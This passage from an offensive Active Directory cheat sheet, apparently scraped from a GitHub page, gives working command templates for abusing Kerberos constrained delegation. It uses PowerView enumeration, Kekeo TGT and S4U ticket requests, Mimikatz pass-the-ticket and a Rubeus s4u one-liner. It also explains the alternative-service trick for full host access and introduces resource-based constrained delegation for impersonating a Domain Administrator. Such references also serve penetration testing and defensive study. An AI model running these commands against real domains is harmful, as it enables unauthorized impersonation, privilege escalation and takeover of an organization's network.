⧉ Copied!

**Note:** We can also use Rubeus!

### Constrained Delegation

Using PowerView and Kekeo:

```powershell
#Enumerate Users and Computers with constrained delegation
Get-DomainUser -TrustedToAuth
Get-DomainComputer -TrustedToAuth

#If we have a user that has Constrained delegation, we ask for a valid tgt of this user using kekeo
tgt::ask /user:<UserName> /domain:<Domain's FQDN> /rc4:<hashedPasswordOfTheUser>

#Then using the TGT we have ask a TGS for a Service this user has Access to through constrained delegation
tgs::s4u /tgt:<PathToTGT> /user:<UserToImpersonate>@<Domain's FQDN> /service:<Service's SPN>

#Finally use mimikatz to ptt the TGS
Invoke-Mimikatz -Command '"kerberos::ptt <PathToTGS>"'
```

⧉ Copied!

*ALTERNATIVE:*
Using Rubeus:

```powershell
Rubeus.exe s4u /user:<UserName> /rc4:<NTLMhashedPasswordOfTheUser> /impersonateuser:<UserToImpersonate> /msdsspn:"<Service's SPN>" /altservice:<Optional> /ptt
```

⧉ Copied!

Now we can access the service as the impersonated user!

:triangular\_flag\_on_post: **What if we have delegation rights for only a spesific SPN? (e.g TIME):**

In this case we can still abuse a feature of kerberos called "alternative service". This allows us to request TGS tickets for other "alternative" services and not only for the one we have rights for. Thats gives us the leverage to request valid tickets for any service we want that the host supports, giving us full access over the target machine.

### Resource Based Constrained Delegation

*WUT IS DIS?:
TL;DR
If we have GenericALL/GenericWrite privileges on a machine account object of a domain, we can abuse it and impersonate ourselves as any user of the domain to it. For example we can impersonate Domain Administrator and have complete access.*

Tools we are going to use:

- [PowerView](https://github.com/PowerShellMafia/PowerSploit/tree/dev/Recon)
- [Powermad](https://github.com/Kevin-Robertson/Powermad)
- [Rubeus](https://github.com/GhostPack/Rubeus)
